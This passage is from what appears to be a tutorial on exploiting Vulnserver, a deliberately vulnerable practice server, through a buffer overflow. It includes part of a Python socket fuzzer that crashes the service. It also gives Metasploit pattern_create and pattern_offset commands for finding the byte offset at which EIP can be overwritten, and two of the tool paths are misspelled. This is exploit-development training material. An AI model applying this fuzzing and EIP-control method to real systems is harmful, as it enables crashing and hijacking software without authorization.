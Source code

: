 ```
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

* don't forget to `chmod +x fuzzing.py`
* once we run this script we'll know the program crashes at what bytes (in this example it crashes at 2700 bytes)
* we round it up, we crashed at around 3000 bytes
* let's find the **EIP** value

## Finding The Offset

* using metasploit pattern create with -l (for length) and our rounded up bytes where the server crashed which was 3000
* `/usr/share/metasploit-framework/tools/exploit/patter_create.rb -l 3000`

The following output will be sent to Vulnserver:

![5-pattern_create](images/5-pattern_create.png)

* copy the output and modify the script where `string = prefix + "A" * 100` to `string = prefix + "<metasploit output>"`
* this time when the server crashes we'll see the value on the **EIP** and we'll use metasploit again with that specific patter offset value
* for the sake of example let's say the EIP value is: `368F4337`
* in metasploit:
* `/user/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 368F4337`
* output will show the exact match for offset (in this example it's 2003 bytes)
* it tells us the at the exactly 2003 bytes we can control the EIP, now let's overwrite it
